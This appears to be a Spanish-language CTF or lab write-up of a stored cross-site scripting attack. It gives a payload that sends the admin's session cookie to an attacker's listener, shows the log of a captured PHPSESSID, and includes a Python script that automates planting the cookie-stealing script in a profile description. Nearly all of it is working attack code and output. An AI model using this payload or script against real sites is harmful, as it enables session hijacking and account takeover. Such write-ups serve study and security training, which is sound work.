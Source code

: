 Podemos obtener la cookie de usuario `admin` de forma silenciosa con el siguiente codigo:


```
<script>document.write('<img src="http://192.168.0.107:8000/test.jpg?cookie='+document.cookie+'">')</script>
```
> Dentro del código fuente de la aplicación hay emulador de administrador que se ejecuta cada minuto 
> `*/1 * * * * /app/emulate_admin.py`

Pongo en escucha un servicio web con `Python` y obtengo la cookie de sesión.

```
❯ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
172.17.0.2 - - [09/Dec/2021 17:11:07] code 404, message File not found
172.17.0.2 - - [09/Dec/2021 17:11:07] "GET /test.jpg?cookie=PHPSESSID=arnt5eeru0be2atru6th5vt4gf HTTP/1.1" 404 -
```

----

### Automatizando la vulnerabilidad

```
#!/usr/bin/python3

import requests, sys, subprocess, socket

if len(sys.argv) != 5:
	print('usage: %s TargetIp AttackIp Username Password'%sys.argv[0])
	sys.exit(-1)

target = sys.argv[1]
host   = sys.argv[2]
user   = sys.argv[3]
passwd = sys.argv[4]

lport  = 4444
s = requests.Session()

def login():
	data = {'username' : user,
		'password' : passwd
		}
	r = s.post("http://%s/login.php" % target, data=data)
	return "[MoTD]" in r.text

def set_desc(d):
	data = {"description":d}
	r = s.post("http://%s/profile.php" % target, data=data)
	return "Success" in r.text

if login():
	print("[+] Logged in!")
else:
	print("[-] Failed to log in.")
	sys.exit(-1)

if set_desc("<script>document.write('<img src=http://%s:%d/'+document.cookie+' />');</script>" % (host,lport)):
	print("[+] Cambiando descripcion")
else:
	print("[-] Error al cambiar descripcion.")
	sys.exit(-1)

```